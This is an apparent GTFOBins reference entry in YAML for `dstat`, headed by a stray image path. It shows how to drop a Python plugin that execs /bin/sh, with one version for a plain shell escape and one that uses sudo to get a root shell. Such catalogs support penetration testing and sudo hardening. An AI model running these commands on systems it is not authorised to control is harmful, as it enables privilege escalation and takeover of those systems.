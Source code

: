 ```yaml
---
description: |
  `dstat` allows you to run arbitrary [`python`](/gtfobins/python/) scripts loaded as "external plugins" if they are located in one of the directories stated in the `dstat` man page under "FILES":

  1. `~/.dstat/`
  2. `(path of binary)/plugins/`
  3. `/usr/share/dstat/`
  4. `/usr/local/share/dstat/`

  Pick the one that you can write into.
functions:
  shell:
    - code: |
        mkdir -p ~/.dstat
        echo 'import os; os.execv("/bin/sh", ["sh"])' >~/.dstat/dstat_xxx.py
        dstat --xxx
  sudo:
    - code: |
        echo 'import os; os.execv("/bin/sh", ["sh"])' >/usr/local/share/dstat/dstat_xxx.py
        sudo dstat --xxx
---
```

